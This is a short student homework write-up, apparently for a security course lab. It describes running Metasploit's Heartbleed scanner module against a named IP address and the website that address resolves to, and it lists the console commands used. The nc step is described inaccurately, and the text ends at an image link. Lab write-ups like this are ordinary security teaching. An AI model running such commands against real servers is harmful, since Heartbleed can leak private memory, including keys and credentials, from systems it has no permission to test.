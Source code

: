 <b>I pledge on my honor that I have not given or received any unauthorized assistance on this homework or assignment. -Jacob Elspas</b>

Homework #4

Part 1: I started off by opening a Bash Terminal and making a metasploit container using the following command 
``` nc 159.89.233.47 1337``` and then running ```mfsconsole```.
The I ran ```search heartbleed``` to find the path for the heartbleed attack, and then selected it with ``` use auxiliary/scanner/ssl/openssl_heartbleed```.
Next, I set the parameters for the exploit and subsequently ran it with the following commands:
``` 
set RHOSTS 165.227.204.80
set VERBOSE true
exploit
```
This ran the exploit on the IP address 165.227.204.80, which is the IP address of the website www.briong.com. I found this by using a website where you give it a domain name and it returns it’s IP address: 

![Alt text](images/briong ip address)
